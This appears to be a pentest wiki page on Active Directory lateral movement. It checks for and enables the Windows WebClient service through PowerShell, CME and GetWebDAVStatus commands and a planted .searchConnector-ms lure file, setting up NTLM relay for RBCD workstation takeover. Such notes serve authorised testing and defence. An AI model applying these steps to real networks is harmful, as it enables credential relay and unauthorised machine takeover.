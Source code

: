 


## WebDAV (WebClient)

- [https://pentestlab.blog/2021/10/20/lateral-movement-webclient/](https://pentestlab.blog/2021/10/20/lateral-movement-webclient/)
- [https://www.tiraniddo.dev/2015/03/starting-webclient-service.html](https://www.tiraniddo.dev/2015/03/starting-webclient-service.html)
- [https://github.com/Hackndo/WebclientServiceScanner](https://github.com/Hackndo/WebclientServiceScanner)

Check if callback via WebDAV (HTTP) is possible. It **is** when the `WebClient` service is running. If it's possible, then [NTLM Relay to LDAPS](/pentest/infrastructure/ad/kerberos/delegation-abuse/rbcd#dhcpv6-wpad-ntlm-relay-rbcd) on behalf of the relayed machine account is your chance for [RBCD workstation takeover](https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb).

Check via PowerShell:

```
PS > Install-Module -Name NtObjectManager
PS > Get-NtFile -Win32Path '\\192.168.1.11\pipe\DAV RPC SERVICE'
```

Check via CME:

```
$ cme smb smb.txt -u snovvcrash -p 'Passw0rd!' -M webdav | grep -a 'WebClient Service enabled'
```

Check via [GetWebDAVStatus](https://github.com/G0ldenGunSec/GetWebDAVStatus):

```
PS > .\GetWebDAVStatus.exe SRV01,SRV02 --tc 1
```



### Enable WebClient

Put the `.searchConnector-ms` file on a writable share. When a domain user opens target folder in explorer, the WebClient service should start automatically:

{% code title="Documents.searchConnector-ms" %}
```
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>https://whatever/</url>
    </simpleLocation>
</searchConnectorDescription>
```
{% endcode %}
